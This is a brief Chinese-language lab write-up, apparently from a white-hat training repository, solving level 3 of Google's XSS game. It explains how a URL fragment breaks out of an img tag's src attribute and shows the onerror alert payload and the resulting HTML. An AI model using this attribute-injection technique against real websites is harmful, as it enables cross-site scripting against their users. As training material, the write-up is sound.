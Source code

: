 # Level-3

## 攻擊原理

#### 網頁原始碼:
- index.html

#### 偽造 img tag:
- 使最後渲染的程式碼變成

```html
<img src='/static/level3/cloud" + num + onerror="alert('done'); + ".jpg' />
```

## 攻擊方法
在網址利列中插入 'onerror="alert('done');"
```
https://xss-game.appspot.com/level3/frame#1'onerror="alert('done');"
```

## 截圖

#### Code: (page onload)
![image](https://github.com/yillkid/ntc-white-hat/assets/185872/67b7264a-d69c-4d7b-af1c-ee3d67b1988e)

#### 或 click:
![image info](./01.png)

#### Request:
![image info](./00.png)

#### Rsponse:
![image info](./01.png)
